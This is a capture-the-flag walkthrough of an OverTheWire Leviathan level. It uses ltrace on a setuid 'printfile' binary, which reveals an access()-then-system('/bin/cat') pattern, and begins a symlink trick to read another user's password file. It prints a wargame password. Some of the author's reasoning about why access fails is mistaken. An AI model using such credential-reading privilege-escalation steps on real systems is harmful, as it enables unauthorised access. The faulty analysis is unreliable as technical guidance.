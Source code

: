 **`leviathan2@gibson:~$ ls`**  
*`printfile`*  

Another setuid binary. 

**`leviathan2@gibson:~$ ./printfile`**  
```
*** File Printer ***
Usage: ./printfile filename
```
**`leviathan2@gibson:~$ ls -la`**  
```
total 36
drwxr-xr-x  2 root       root        4096 Dec  3 08:13 .
drwxr-xr-x 83 root       root        4096 Dec  3 08:14 ..
-rw-r--r--  1 root       root         220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root       root        3771 Jan  6  2022 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 15060 Dec  3 08:13 printfile
-rw-r--r--  1 root       root         807 Jan  6  2022 .profile
```
**`leviathan2@gibson:~$ ./printfile /etc/leviathan_pass/leviathan3`**   
*`You cant have that file...`*  

Well that's odd; it won't let us print the contents of the leviathan3 password file, despite the binary having ownership permissions of `leviathan3`. Let's see what's going on under the hood:

**`leviathan2@gibson:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3`**  
```
__libc_start_main(0x80491e6, 2, 0xffffd5d4, 0 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)                                                                                                        = -1
puts("You cant have that file..."You cant have that file...
)                                                                                                                 = 27
+++ exited (status 1) +++
```

Well that's strange; it doesn't seem to be calling any libraries, rather just automatically printing that I don't have access. It doesn't make sense that this would be the case for all files, otherwise the setuid binary would essentially be useless. Let's try with another file:

**`leviathan2@gibson:~$ ltrace ./printfile /etc/leviathan_pass/leviathan2`**  
```
__libc_start_main(0x80491e6, 2, 0xffffd5d4, 0 <unfinished ...>
access("/etc/leviathan_pass/leviathan2", 4)                                                                                                        = 0
snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2")                                              = 39
geteuid()                                                                                                                                          = 12002
geteuid()                                                                                                                                          = 12002
setreuid(12002, 12002)                                                                                                                             = 0
system("/bin/cat /etc/leviathan_pass/lev"...mEh5PNl10e
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                             = 0
+++ exited (status 0) +++
```

Well here we go; it makes dynamic library calls for other input files, just not for /etc/leviathan_pass/leviathan3. Perhaps it is conditionally programmed such that for that exact file, it prints the "can't have that file" output. To exploit this, we need to reference another filename in the binary input, while at the same time, actually reading the contents of our intended target file. We can create a symbolic link for this purpose:

**`leviathan2@gibson:~$ mkdir /tmp/rajh/`**  
**`leviathan2@gibson:~$ ln -s /etc/leviathan_pass/leviathan3 /tmp/rajh/test.txt`**  
